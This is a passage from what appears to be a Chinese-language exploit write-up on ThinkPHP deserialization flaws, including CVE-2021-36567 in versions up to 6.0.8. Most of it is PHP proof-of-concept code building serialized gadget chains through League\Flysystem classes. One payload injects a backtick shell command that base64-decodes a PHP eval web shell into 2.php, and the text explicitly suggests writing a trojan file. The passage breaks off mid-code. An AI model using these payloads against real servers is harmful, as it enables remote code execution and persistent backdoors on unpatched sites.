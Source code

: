 ```plain
            $this->expire = "永遠的神y4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}
```

区别就是初始化的时候赋值的 complete 变量，因为$contents = $this->getForStorage();我们跟进 getForStorage() 方法就可以发现 return json\_encode(\[$cleaned, $this->complete, $this->expire\]);我们自然可以只赋值 complete 变量

## CVE-2021-36567

### 描述

ThinkPHP v6.0.8 已通过组件 League\\Flysystem\\Cached\\Storage\\AbstractCache 包含反序列化漏洞。

### 范围

thinkphp<=6.0.8,Linux 系统，因为核心是把 system(json 加密的数据),类似： 
\[\["`whoami`"\],\[\]\]  
这样的结果返回，Windows 肯定不会执行成功，Linux 可以返回，虽然没有回显但是命令执行函数已经执行了。所以我们可以写木马文件  
\[\[jmx\],\[\]\]: command not found

### Poc

```plain
<?php
namespace League\Flysystem\Cached\Storage{
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = [];
        protected $cache = ['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'];
    }
}

namespace think\filesystem{
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key;
        public function __construct($store,$key,$expire)
```